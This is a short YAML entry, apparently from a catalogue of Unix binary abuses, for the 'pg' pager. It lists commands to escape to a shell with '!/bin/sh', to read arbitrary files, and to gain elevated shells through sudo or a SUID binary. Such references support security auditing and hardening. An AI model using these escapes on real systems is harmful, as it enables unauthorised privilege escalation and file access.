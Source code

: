 ```yaml
---
functions:
  execute-interactive:
    - code: |
        pg /etc/profile
        !/bin/sh
  file-read:
    - code: pg file_to_read
  sudo-enabled:
    - code: |
        sudo pg /etc/profile
        !/bin/sh
  suid-enabled:
    - description:
      code: |
        ./pg file_to_read
        !/bin/sh
---
```

